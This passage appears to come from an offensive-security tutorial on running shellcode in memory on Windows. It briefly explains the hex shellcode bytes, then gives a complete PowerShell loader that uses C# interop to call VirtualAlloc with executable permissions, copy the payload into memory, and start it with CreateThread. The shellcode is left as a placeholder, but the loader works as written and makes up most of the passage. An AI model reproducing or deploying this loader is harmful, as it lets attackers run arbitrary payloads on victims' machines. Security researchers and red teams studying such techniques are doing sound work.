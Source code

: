 The actual shellcode in the output above is the hex-encoded byte array, which starts with `0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. So, instead of seeing long strings of 1s and 0s, you see something like `0xfc` instead. \n

We can execute this shellcode by loading it into memory and then creating a thread for its execution. In this case, we will use PowerShell to call a few Windows APIs via C# code. Below is a simple PowerShell script that will execute our shellcode:

```javascript
  $VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
}
"@

Add-Type $VrtAlloc

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

}
"@
Add-Type $CrtThread

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

